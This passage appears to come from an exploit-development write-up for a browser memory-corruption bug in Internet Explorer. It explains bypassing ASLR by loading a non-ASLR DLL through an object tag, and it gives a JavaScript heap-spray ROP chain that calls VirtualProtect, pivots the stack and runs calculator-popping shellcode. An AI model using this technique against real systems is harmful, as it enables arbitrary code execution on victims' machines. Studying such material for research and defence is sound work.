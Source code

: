 Once we have the program referencing our heap block, if we recall the source of our crash: `call dword ptr [eax+0DCh]`, in order to gain EIP control we need to now have our heapblock to contain an address to exectuable code at the 0xDC offset(DEP is enabled disallowing us to directly jump into our shellcode, however with the heap spray our shellcode is also at a predictable address). Since ASLR is enabled on most included dlls, without an information leak, we will be unable to actually jump to any address unless we have a dll that does not have ASLR enabled. For this I chose to have mscoreie.dll included on the page by included a dll on the page that requires mscoreie.dll to also be included on the page.
```html
<object style="display:none" classid="defeatASLR.dll#Foo"></object>
```
Depending on the user's security settings they may be prompted to either allow or disallow page elements such as this which could take away from the effectiveness of this exploit. Again an information leak would make this exploit more effective, however exploit of this bug would also be a more intensive exercise.

### ROP Chain
In order to execute shellcode, a call to virtual protect is required to make our heap block executable. This is achieved by using a stack pivot to cause our heap block to essentially become the stack allowing us to have complete control flow execution of the program:
```javascript
function sprayROPChain() {
    var ropChain = pack([
        virtualProtect, 	// VirtualProtect
        heapBlock,			// Heap block to make exec
        0xffff,				// How many bytes to make exec
        0x40,				// Exec specifier
        heapBlock + 0x4000,	// Garbage addr
        heapBlock,			// Garbage addr
        heapBlock + 0x128	// Shellcode address
    ]);

    var payload =  "\ubabe\ucafe" + ropChain;
        // stack pivot gets called with "call [eax + 0xdc]"
        payload += createString("\udead", call1Offset - (payload.length * 2) + 2);
        payload += pack([stackPivot]);

        // "add esp, 8" gets called with "call [eax + 0x100]"
        payload += createString("\ubeef", call2Offset - (payload.length * 2) + 2);
        payload += pack([addESP]);

        // shellcode to be executed once VirtualProtect makes heap block
        // executable
        payload += shellcode;

    heapspray(payload);
}
```

The shellcode included in the exploit simply causes the Windows calculator to open, demonstrating arbitrary code execution.
